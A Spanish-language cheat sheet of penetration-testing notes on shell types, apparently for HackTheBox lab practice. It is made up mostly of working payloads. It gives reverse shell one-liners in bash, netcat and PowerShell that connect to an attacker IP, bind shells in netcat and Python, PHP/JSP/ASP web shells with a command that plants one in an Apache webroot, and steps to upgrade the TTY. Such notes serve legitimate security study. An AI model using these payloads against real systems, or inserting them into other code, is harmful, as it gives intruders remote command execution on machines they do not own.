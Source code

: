 # Apuntes resumidos: Tipos de Conchas (Shells)

## 1) Tipos principales
| Tipo            | Comunicación                               | Uso común |
|-----------------|-------------------------------------------|-----------|
| **Reverse**     | El host comprometido **se conecta a nosotros** | Rápido y común |
| **Bind**        | El host comprometido **escucha**, nosotros nos conectamos | Persistencia local |
| **Web**         | Comandos vía **HTTP** en scripts (PHP/JSP/ASP) | Evita firewall y puertos bloqueados |

---

## 2) Reverse Shell
### Paso 1: Iniciar listener en atacante
```bash
nc -lvnp 1234
```

### Paso 2: obtener IP VPN
```bash
ip a     # usar tun0 para HTB
```

### Paso 3: ejecutar payload en víctima
Linux (bash):
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
Alternativo:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Windows (PowerShell):
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

---

## 3) Bind Shell
Ejecutar payload en víctima para escuchar:
Linux:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
Python:
```python
python -c 'import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())'
```

Conectar desde atacante:
```bash
nc <IP_victima> 1234
```

---

## 4) Web Shell
Ejemplos simples de script web (subir a webroot víctima):

PHP:
```php
<?php system($_REQUEST["cmd"]); ?>
```

JSP:
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

ASP:
```asp
<% eval request("cmd") %>
```

Cargar en Apache Linux:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

Ejecutar comando (navegador o cURL):
```bash
curl http://SERVER_IP/shell.php?cmd=id
```

---

## 5) Mejorar TTY en shells obtenidas con netcat
En víctima (dentro de shell):
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Suspender con Ctrl+Z en atacante y luego:
```bash
stty raw -echo
fg
export TERM=xterm-256color
stty rows <N> columns <M>
```

---

## 6) Tips clave
- **Reverse:** rápido, pero se cae si pierde conexión.
- **Bind:** permite reconectar sin reiniciar payload.
- **Web shell:** útil si solo hay RCE web, sobre puertos 80/443.
- **Siempre mejorar TTY** para tener historial y atajos.
- **Ajustar TERM y tamaño de pantalla** tras obtener shell.
